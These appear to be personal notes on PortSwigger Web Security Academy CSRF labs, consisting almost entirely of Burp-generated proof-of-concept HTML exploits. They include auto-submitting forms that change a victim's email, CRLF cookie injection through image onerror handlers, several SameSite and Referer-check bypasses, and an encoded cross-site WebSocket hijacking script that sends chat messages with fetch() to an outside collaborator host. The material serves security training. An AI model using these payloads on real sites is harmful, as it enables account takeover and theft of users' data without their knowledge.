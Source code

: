 In order for a CSRF attack to be possible:

- A relavant action (like change user email)
- Cookie-based session handling
- No unpredictable request parameters

Right click on the request on BurpSuite > Engagement Tools > Generate CSRF PoC

Sample code for exploit POST method without user interaction.

```html
<html>
  <!-- CSRF Proof of Concept - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://0a6700f303f565ad8084c11d00dc0027.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="asd&#64;asd&#46;asd" />
      <input type="submit" value="Submit request" />
    </form>
    <img src="https://example.com/?search=term%0d%0aSet-Cookie:%20csrf=tZqZzQ1tiPj8KFnO4FOAawq7UsYzDk8E" onerror="document.forms[0].submit();"/>
  </body>
</html>
```

## Lab: CSRF where token is tied to non-session cookie

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0ad0007d048dba7b812f11c5009f000b.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="wien4444444444444444er&#64;normal&#45;user&#46;net" />
      <input type="hidden" name="csrf" value="Z61L1WsHmOUxVTOYlwhnxvG81KzBXZez" />
      <input type="submit" value="Submit request" />
     <img src="https://0ad0007d048dba7b812f11c5009f000b.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=FQRdNpHOyU06HrOxhD8OofnOqJSX66zN%3b%20SameSite=None" onerror="document.forms[0].submit()">
    </form>
  </body>
</html>
```



## Lab: CSRF where token is duplicated in cookie

On this lab, server-side on check for Cookie and body is the same.

This lab's email change functionality is vulnerable to CSRF. It attempts to use the insecure "double submit" CSRF prevention technique.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You can log in to your own account using the following credentials: `wiener:peter`

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a4a004f043ae13d804cd0d200e600cf.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="nonnnnnnnner&#64;normal&#45;user&#46;net" />
      <input type="hidden" name="csrf" value="ywYvnEJIfYeKoWwBNmK8SiUA3dJ2OOWD" />
      <input type="submit" value="Submit request" />
    </form>
    <img src="https://0a4a004f043ae13d804cd0d200e600cf.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=ywYvnEJIfYeKoWwBNmK8SiUA3dJ2OOWD%3b%20SameSite=None" onerror="document.forms[0].submit()">
  </body>
</html>
```


## Lab: SameSite Lax bypass via method override

Override GET method with the `_method` parameter

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a50008c0380720880c33508006100de.web-security-academy.net/my-account/change-email">
      <input type="hidden" name="email" value="wie223423434ner&#64;normal&#45;user&#46;net" />
      <input type="hidden" name="&#95;method" value="POST" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>

```

## Lab: SameSite Strict bypass via client-side redirect

```html
<script>
    document.location="https://0a13000204da9a0281d198d3005a0054.web-security-academy.net/post/comment/confirmation?postId=../my-account/change-email?email=w11i45345345ner%40normal-user.net%26submit=1"
</script>


<script>
    document.location="https://0a13000204da9a0281d198d3005a0054.web-security-academy.net/post/comment/confirmation?postId=1/../../my-account/change-email?email=w11i45345345ner%40normal-user.net%26submit=1"
</script>
```


## Lab: SameSite Strict bypass via sibling domain

```html
<script>
    document.location = "https://cms-0a5300cb035a722d804b5dc700800053.web-security-academy.net/login?password=123&username=%3Cscript%3E%0A%20%20%20%20var%20ws%20%3D%20new%20WebSocket%28%27wss%3A%2F%2F0a5300cb035a722d804b5dc700800053%2Eweb%2Dsecurity%2Dacademy%2Enet%2Fchat%27%29%3B%0A%20%20%20%20ws%2Eonopen%20%3D%20function%28%29%20%7B%0A%20%20%20%20%20%20%20%20ws%2Esend%28%22READY%22%29%3B%0A%20%20%20%20%7D%3B%0A%20%20%20%20ws%2Eonmessage%20%3D%20function%28event%29%20%7B%0A%20%20%20%20%20%20%20%20fetch%28%27https%3A%2F%2Fhm730z86mqgy1makyotj99j31u7lvhj6%2Eoastify%2Ecom%27%2C%20%7Bmethod%3A%20%27POST%27%2C%20mode%3A%20%27no%2Dcors%27%2C%20body%3A%20event%2Edata%7D%29%3B%0A%20%20%20%20%7D%3B%0A%3C%2Fscript%3E";
</script>
```


## Lab: SameSite Lax bypass via cookie refresh

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a28009b03373cc3815afc6a0020003a.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="wi476576ener&#64;normal&#45;user&#46;net" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      window.onclick = () => {
          window.open('https://0a28009b03373cc3815afc6a0020003a.web-security-academy.net/social-login');
          setTimeout(changeEmail, 10000);
      }
      function changeEmail() {
          document.forms[0].submit();
      }
    </script>
  </body>
</html>

```

# Lab: CSRF with broken Referer validation


```http
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Referrer-Policy: unsafe-url
```

```html
<!--
	Body
-->
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a6d00bc04fce11181b42a5e0042009b.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="wieaaaaaaner&#64;normal&#45;user&#46;net" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState("", "", "/?0a6d00bc04fce11181b42a5e0042009b.web-security-academy.net")
      document.forms[0].submit();
    </script>
  </body>
</html>

```

# Lab: CSRF where Referer validation depends on header being present

```html
<html>
  <meta name="referrer" content="no-referrer">
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <head>
    <meta name="referrer" content="no-referrer">
  </head>
  <body>
    <form action="https://0a42007c03532b498111b100000a00c9.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="wi8en6575675er&#64;normal&#45;user&#46;netzz" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

